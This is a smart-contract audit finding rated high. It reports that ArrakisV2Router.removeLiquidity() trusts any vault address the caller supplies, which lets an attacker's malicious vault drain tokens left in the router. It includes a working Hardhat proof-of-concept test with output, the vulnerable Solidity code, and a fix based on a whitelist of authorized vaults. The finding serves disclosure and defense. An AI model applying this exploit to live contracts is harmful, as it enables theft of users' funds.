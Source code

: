 0xbepresent

high

# A malicious vault can be used in the ArrakisV2Router.removeLiquidity() function to steal tokens that are in the `ArrakisV2Router` balance

## Summary

A malicious vault crafted by an attacker can be used in the [ArrakisV2Router.removeLiquidity()](https://github.com/sherlock-audit/2023-06-arrakis/blob/main/v2-periphery/contracts/ArrakisV2Router.sol#L201) function to steal tokens that are in the [ArrakisV2Router](https://github.com/sherlock-audit/2023-06-arrakis/blob/main/v2-periphery/contracts/ArrakisV2Router.sol#L201) balance.

## Vulnerability Detail

The [ArrakisV2Router.removeLiquidity()](https://github.com/sherlock-audit/2023-06-arrakis/blob/main/v2-periphery/contracts/ArrakisV2Router.sol#L201) function can be called with a custom `vault` parameter.

The problem here is that the `removeLiquidity()` function can be called with a malicious vault crafted by an attacker so the attacker can try to steal tokens that are in the Router balance.

I created the next test. Test steps:

1. Someone accidentally send 10 DAI to the Router contract.
2. Attacker mints 10 malicious vault tokens.
3. Attacker calls the removeLiquidity() function and he set his malicious vault instead of valid ArrakisV2 vault.
4. Now the attacker has the token0 (DAI) which was send accidentally to the router contract in the step 1.

```javascript
// yarn test --grep "0xbepresent_remove_dai"
  it("0xbepresent_remove_dai : add liquidity and attacker remove it via a malicious vault contract", async function () {
    //
    // 1. Someone accidentally send 10 DAI to the Router contract
    // 2. Attacker mints 10 malicious vault tokens
    // 3. Attacker calls the removeLiquidity() function and he set his malicious vault instead of the original vault
    // 4. Now the attacker has the token0 which was send accidentally to the router contract in the step 2
    //
    const token1Address = await vault.token1();
    expect(token1Address.toLowerCase()).to.equal(addresses.WETH.toLowerCase());
    //
    // 1. Someone accidentally send DAI to the Router contract
    //
    let amountToRouter = ethers.utils.parseEther("10");
    console.log("\nSomeone accidentally send", amountToRouter.toString(), "token0 to the router...");
    await token0.connect(wallet).transfer(router.address, amountToRouter);
    let routerBalance0 = await token0.balanceOf(router.address);
    let attackerMaliciousVaultBalance = await token0.balanceOf(attackerAddress);
    console.log("\nRouter and attacker balances before the removeLiquidity() execution...");
    console.log("Router token0 balance            :", routerBalance0.toString());
    console.log("Attacker receiver token0 balance :", attackerMaliciousVaultBalance.toString());
    //
    // 2. Attacker mints 10 malicious vault tokens
    //
    let amountMintMaliciousVault = ethers.utils.parseEther("10"); // 10 ether
    maliciousVault.connect(walletAttacker).mint(amountMintMaliciousVault, attackerAddress);
    //
    // 3. Attacker calls the removeLiquidity() function and he set his malicious vault instead of the original vault
    //
    // Approve malicious vault to router address
    await maliciousVault.connect(walletAttacker).approve(router.address, amountMintMaliciousVault);
    // Setting malicious vault
    const removeLiquidity = {
      vault: maliciousVault.address, // maliciousVault
      burnAmount: amountMintMaliciousVault,
      amount0Min: 0,
      amount1Min: 0,
      receiver: attackerAddress,
      receiveETH: true,
      gauge: "0x0000000000000000000000000000000000000000",
    };
    await router.connect(walletAttacker).removeLiquidity(removeLiquidity);
    //
    // 4. Now the attacker has the token0 which was send accidentally to the router contract in the step 1
    //
    routerBalance0 = await token0.balanceOf(router.address);
    attackerMaliciousVaultBalance = await token0.balanceOf(attackerAddress);
    console.log("\nRouter and attacker balances after the removeLiquidity() execution...");
    console.log("Router token0 balance            :", routerBalance0.toString());
    console.log("Attacker receiver token0 balance :", attackerMaliciousVaultBalance.toString());
  });
```

Test Output:
```bash
  ArrakisV2Router tests on DAI/WETH vault

Someone accidentally send 10000000000000000000 token0 to the router...

Router and attacker balances before the removeLiquidity() execution...
Router token0 balance            : 10000000000000000000
Attacker receiver token0 balance : 0

Router and attacker balances after the removeLiquidity() execution...
Router token0 balance            : 0
Attacker receiver token0 balance : 10000000000000000000
    ✓ 0xbepresent_remove_dai : add liquidity and attacker remove it via a malicious vault contract
```

As you can see, the Router token0 balance (10000000000000000000) is transferred to the attacker token0 balance.

In the next private gist, it can be found the [MaliciousArrakisV2.sol](https://gist.github.com/0xbepresent/5f8680b2288d0786970d8f20b6ed5532#file-maliciousarrakisv2-sol) (Malicious vault) and the [ArrakisV2RouterDaiWeth.test.ts](https://gist.github.com/0xbepresent/5f8680b2288d0786970d8f20b6ed5532#file-arrakisv2routerdaiweth-test-ts) files.

## Impact

An attacker can use a `malicious vault` creafted by an attacker to steal tokens that are in the `Router balance`. The router may have tokens that are accidentally sent by mistake or with and incorrectly configured vault.

## Code Snippet

The [ArrakisV2Router._removeLiquidity()](https://github.com/sherlock-audit/2023-06-arrakis/blob/main/v2-periphery/contracts/ArrakisV2Router.sol#L536) function:

```solidity
File: ArrakisV2Router.sol
536:     function _removeLiquidity(RemoveLiquidityData memory removeData_)
537:         internal
538:         returns (uint256 amount0, uint256 amount1)
539:     {
540:         if (removeData_.receiveETH) {
541:             (amount0, amount1) = IArrakisV2(removeData_.vault).burn(
542:                 removeData_.burnAmount,
543:                 address(this)
544:             );
545:         } else {
546:             (amount0, amount1) = IArrakisV2(removeData_.vault).burn(
547:                 removeData_.burnAmount,
548:                 removeData_.receiver
549:             );
550:         }
551: 
552:         require(
553:             amount0 >= removeData_.amount0Min &&
554:                 amount1 >= removeData_.amount1Min,
555:             "received below minimum"
556:         );
557: 
558:         if (removeData_.receiveETH) {
559:             _receiveETH(
560:                 IArrakisV2(removeData_.vault),
561:                 amount0,
562:                 amount1,
563:                 removeData_.receiver
564:             );
565:         }
566:     }
```

The [ArrakisV2Router._receiveETH()](https://github.com/sherlock-audit/2023-06-arrakis/blob/main/v2-periphery/contracts/ArrakisV2Router.sol#L706) function:

```solidity
File: ArrakisV2Router.sol
706:     function _receiveETH(
707:         IArrakisV2 vault_,
708:         uint256 amount0_,
709:         uint256 amount1_,
710:         address payable receiver_
711:     ) internal {
712:         IERC20 token0 = vault_.token0();
713:         IERC20 token1 = vault_.token1();
714:         bool wethToken0 = _isToken0Weth(address(token0), address(token1));
715:         if (wethToken0) {
716:             if (amount0_ > 0) {
717:                 weth.withdraw(amount0_);
718:                 receiver_.sendValue(amount0_);
719:             }
720:             if (amount1_ > 0) {
721:                 token1.safeTransfer(receiver_, amount1_);
722:             }
723:         } else {
724:             if (amount1_ > 0) {
725:                 weth.withdraw(amount1_);
726:                 receiver_.sendValue(amount1_);
727:             }
728:             if (amount0_ > 0) {
729:                 token0.safeTransfer(receiver_, amount0_);
730:             }
731:         }
732:     }
```

## Tool used

Manual review

## Recommendation

Not sure what would be the best solution. One solution is to save the `authorized vaults` to interact and validates them in the [_addLiquidity()](https://github.com/sherlock-audit/2023-06-arrakis/blob/main/v2-periphery/contracts/ArrakisV2Router.sol#L399) and [_removeLiquidity()](https://github.com/sherlock-audit/2023-06-arrakis/blob/main/v2-periphery/contracts/ArrakisV2Router.sol#L536) functions.